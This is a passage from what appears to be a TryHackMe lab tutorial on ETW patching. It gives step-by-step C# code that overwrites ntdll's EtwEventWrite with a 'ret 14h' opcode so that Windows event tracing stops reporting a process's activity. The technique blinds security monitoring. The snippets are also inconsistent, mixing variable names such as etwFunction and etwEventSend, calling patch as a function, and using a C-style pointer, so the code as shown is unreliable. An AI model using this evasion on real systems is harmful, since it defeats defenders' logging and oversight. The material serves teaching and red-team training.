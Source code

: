 ![Identical diagram to previous but with assembly included with ret 14h being pushed to the top and being popped out](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/52fd846d5fa1e76948ac47d563ad6228.png)

***Figure 2.***

Now that we have a basic understanding of the core fundamentals behind the technique let's look at how it’s technically applied.

At a high level, ETW patching can be broken up into five steps:

1. Obtain a handle for `EtwEventWrite`
2. Modify memory permissions of the function
3. Write opcode bytes to memory
4. Reset memory permissions of the function (optional)
5. Flush the instruction cache (optional)

At step one, we need to obtain a handle for the address of `EtwEventWrite`. This function is stored within `ntdll`. We will first load the library using `LoadLibrary` then obtain the handle using `GetProcAddress`.

```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

At step two, we need to modify the memory permissions of the function to allow us to write to the function. The permission of  the function is defined by the `flNewProtect` parameter; `0x40` enables X, R, or RW access ([memory protection constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)).

```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```

At step three, the function has the permissions we need  to write to it, and we have the pre-defined opcode to patch it. Because  we are writing to a function and not a process, we can use the infamous `Marshal.Copy` to write our opcode.

```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```

At step four, we can begin cleaning our steps to restore memory permissions as they were.

```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```
